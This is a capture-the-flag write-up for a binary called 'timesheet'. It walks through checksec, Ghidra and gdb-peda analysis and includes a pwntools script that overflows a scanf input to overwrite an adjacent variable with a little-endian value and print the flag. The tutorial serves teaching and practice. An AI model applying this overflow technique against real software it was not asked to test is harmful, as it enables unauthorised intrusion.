

# Challenge

Timesheet part 1

# Description 

In the ctf the challenge wasn't exactly like this, there were issues with the initial program and I had to rewrite it a bit.
In order to make it 'easier' to the contestants the code was 97 (a). I changed it in this writeup to make the underlying technique clear.

# Solution

The challenge gives us a binary file that we need to exploit.
In the ctf the contestants get a file where the flag is obscured, in this writeup the real binary is used.
## checksec
If we use checksec on this file we can see the protective measures that the challenge has enabled.
We see that the stack canary is enabled so is NX and PIE. These measures protect against:

Canary: protects the return address for buffer overflows.\
NX: protects the stack from being executed.\
PIE: makes the position of the area's random.


## Ghidra
Now lets take a look at what's going on inside the binary. We will use ghidra to decompile and reverse engineer the code a bit.
The image below shows the decompiled code. From there one thing is obvious in the main function and that is: scanf is used to read a char.

Another thing that we will see is that selection (the var we have control over) is located right before the code we need to enter to get the flag.
In order to get the flag we need to put the character 5 in the selection variable and overflow the code with 0x1e240. In order to do this we will spin up 
gdb-peda and take a look at the inner workings of the program.


## debugging with gdb-peda

The image below shows how the stack looks after we write "5abcdefg" to the program. I have drawn boxes around the values to indicate what they represent.

Green: the value 5 (the location of the selection variable)\
Blue (dark): 0x64636261 (this is 'abcd' in with the least significant byte (LSB) on the left)\
Light blue: 0x676665 'efg'\
Purple: a pointer to a pointer to the value of the stack canary. If we overwrite this, we will get a "stack smash detected" error.
red: the return address.




Important to note form this is that the processor is little endian. That means if we want to write the code 0x1e240 
we will have to send it as 0x40e201. That will be important for the exploit (the contestants did not have to deal with this).

## Exploit

The exploit is sown in the code snippet below. We use pwntools to load the binary and exploit it. 
First we load the timesheet and define our exploit string we want to send. first we want to send 5 followed by our code keeping in mind
that the processor works in little endian. Next up we receive the values until we find > (prompt for input). We send our exploit string.
And collect the flag by going in interactive mode (we get control over the program).

```Python
from pwn import *

p = process('./timesheet')
exploit_string = "\x35\x40\xe2\x01"

p.recvuntil(b'>')
p.sendline(exploit_string)

p.interactive()
```

The output of the script looks like this: 

```commandline
[x] Starting local process './timesheet'
[+] Starting local process './timesheet': pid 9453
[*] Switching to interactive mode
 ctf{buff3r_0v3r_fl0w1ng_th3_c0ntr0l_v4ri4bl3}
Welcome to the Timesheet portal
Chose your option:

1. Manual entry
2. Random entry
3. Send timesheet
4. Exit
> 
```

# Flag 

 ctf{buff3r_0v3r_fl0w1ng_th3_c0ntr0l_v4ri4bl3}
